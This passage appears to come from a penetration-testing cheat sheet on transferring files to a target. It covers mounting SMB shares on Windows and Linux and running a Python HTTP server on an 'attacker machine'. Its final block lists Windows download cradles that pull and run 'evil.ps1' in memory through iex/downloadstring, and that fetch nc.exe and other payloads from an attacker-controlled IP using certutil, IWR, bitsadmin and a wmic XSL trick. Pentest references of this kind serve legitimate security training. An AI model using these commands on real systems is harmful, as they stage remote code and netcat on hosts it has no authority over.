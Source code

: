 ```console
New-PSDrive -Name "tools" -PSProvider "Filesystem" -Root "\\192.168.42.42\tools"
```

Mounting it without Powershell:

```console
net use z: \\192.168.42.42\tools"
```

On windows, to list mounted shares, either Powershell or without it:

```console
Powershell: Get-SMBShare
Without Powershell: net share
```

#### Mount in Linux

Is needed to have installed cifs-utils, to install it (in debian based):

```console
sudo apt-get install cifs-utils
```

To mount it:

```console
sudo mount -t cifs //192.168.42.42/tools ~/my_share/
```

To list mounted shares:

```console
mount | grep cifs
grep cifs /proc/mount

```

### HTTP
From your local attacker machine, create a http server with:

```console
sudo python3 -m http.server 80
sudo python2 -m SimpleHTTPServer 80
```

It's also possible to specify which path to share, for example:

```console
sudo python3 -m http.server 80 --dir /home/kali/tools
```

#### Windows

```console
iex(new-object net.webclient).downloadstring("http://192.168.42.42/evil.ps1)
IWR -Uri "http://192.168.42.42/n64.exe" -Outfile "n64.exe"
certutil.exe -urlcache -split -f "http://192.168.42.42/nc.exe" nc.exe
wmic process get brief /format:"http://192.168.42.42/evilexcel.xsl
bitsadmin /Transfer myDownload http://192.168.42.42/evilfile.txt C:\Windows\Temp\evilfile.txt
```
